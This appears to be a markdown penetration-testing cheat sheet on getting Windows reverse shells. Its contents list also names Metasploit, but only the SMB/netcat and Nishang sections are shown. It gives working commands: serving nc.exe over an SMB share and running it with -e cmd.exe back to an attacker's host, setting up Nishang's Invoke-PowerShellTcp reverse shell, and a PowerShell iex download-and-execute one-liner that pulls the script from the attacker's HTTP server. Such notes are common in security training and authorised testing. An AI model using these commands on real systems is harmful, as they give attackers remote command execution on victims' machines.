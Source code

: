 - [SMB and netcat](#Netcat)
- [Nishang](#Nishang)
- [Metasploit](#Metasploit)

# Netcat
- On your local machine run smb server
```
mkdir smb; cd smb; cp /usr/share/windows-resources/binaries/nc.exe .;cd ..
```
- Run SMB server and netcat listener
```
smbserver.py share smb

nc -lnvp <your port>
```
 On vulnerable app
 ```
 \\<your_local_ip>\share\nc.exe -e cmd.exe <your_local_ip> <your_local_port>
 ```
 
 -------------------------------------------------------------------------------------------------------------------------------------
 
# Nishang
Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security.

- Copy InvokePowerShellTcp.ps1 from /opt/nishang/Shells/
Example invocation for the reverse shell:
```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```
- run python HTTP server
```
python -m http.server 9090
```
- Get powershell script
```
powershell iex(new-object net.webclient).downloadstring('http://<your_python_server_address>:9090/Invoke-PowerShellTcp.ps1')
```
